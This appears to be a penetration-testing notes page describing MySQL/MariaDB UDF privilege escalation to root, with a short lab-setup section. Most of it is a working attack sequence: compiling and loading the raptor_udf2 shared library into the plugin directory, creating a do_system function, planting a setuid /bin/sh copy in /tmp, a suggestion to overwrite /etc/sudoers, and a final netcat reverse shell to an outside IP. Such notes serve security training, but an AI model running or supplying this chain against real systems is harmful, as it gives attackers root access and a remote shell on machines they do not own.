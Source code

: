 # MySQL UDF

## <mark style="color:red;">Simulation</mark>

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

#### `chown -R root:root /var/lib/mysql`

#### `nano /etc/mysql/mariadb.conf.d/50-server.cnf`&#x20;

#### `Change user=mysql to user=root and save the file` `service mysql restart`

## <mark style="color:red;">Find mysql service user</mark>

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF(User-Defined Function) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

\
`ps aux | grep mysql`

![](../../../.gitbook/assets/udf1.png)

its running as root.login:

`mysql -u root`\
`use mysql; # mysql is the database`\
`select * from mysql.func; # search for udf`

![](../../../.gitbook/assets/udf2.png)

## <mark style="color:red;">Exploitation</mark>

#### <mark style="color:green;">if the mysql service already has the function we can skip exploit part:</mark>

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');`\
`OR`\
`select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

![](../../../.gitbook/assets/udf3.png)

exit and go to /tmp

run sh file:

![](../../../.gitbook/assets/udf4.png)

## <mark style="color:red;">Adding the UDF function</mark>

#### <mark style="color:green;">if mysql doesn't have the function already we add it using the exploit:</mark>

{% embed url="https://www.exploit-db.com/download/1518.c" %}

{% file src="../../../.gitbook/assets/1518.c" %}

the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c # for 32 bit systems`\
`gcc -g -c raptor_udf2.c -fPIC # for 64 bit`\
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p >>> press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!
